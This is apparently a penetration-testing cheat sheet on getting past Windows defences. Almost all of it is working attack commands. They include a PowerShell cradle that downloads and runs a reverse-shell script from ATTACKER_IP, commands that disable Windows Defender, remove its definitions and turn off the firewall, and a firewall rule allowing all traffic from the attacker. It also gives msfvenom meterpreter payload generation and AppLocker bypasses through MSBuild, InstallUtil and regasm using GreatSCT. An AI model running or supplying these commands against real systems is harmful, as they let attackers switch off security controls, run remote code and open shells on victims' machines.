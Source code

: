 
## Bypass-Evasion Techniques

### Powershell Constrained Language Bypass
powershell.exe -v 2 -ep bypass -command "IEX (New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/rev.ps1')PSByPassCLM

### Windows Defender
sc config WinDefend start= disabled
sc stop WinDefend
# Powershell
Set-MpPreference -DisableRealtimeMonitoring $true
# Remove definitions
"%Program Files%\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All

### Firewall
Netsh Advfirewall show allprofilesNetSh Advfirewall set allprofiles state off

### IP Whitelisting
New-NetFirewallRule -Name inrules -DisplayName morph3inbound -Enabled True -Direction Inbound -Protocol ANY -Action Allow -Profile ANY -RemoteAddress ATTACKER_IP

### Applocker Bypass
https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md
https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/VerifiedAppLockerBypasses.md
https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/DLL-Execution.md
# Multistep process to bypass applocker via MSBuild.exe:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.56 LPORT=9001  -f csharp -e x86/shikata_ga_nai -i  > out.cs 
# Replace the buf-sc and save it as out.csproj
https://raw.githubusercontent.com/3gstudent/msbuild-inline-task/master/executes%20shellcode.xml
Invoke-WebRequest "http://ATTACKER_IP/payload.csproj" -OutFile "out.csproj"; C:\windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe .\out.csproj

### GreatSCT
# This also needs Veil-Framework
python GreatSCT.py --ip 192.168.1.56 --port 443 -t Bypass -p installutil/powershell/script.py -c "OBFUSCATION=ascii SCRIPT=/root/script.ps1"
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false payload1.exe
python3 GreatSCT.py -t Bypass -p regasm/meterpreter/rev_tcp --ip 192.168.1.56 --port 9001
C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U payload.dll
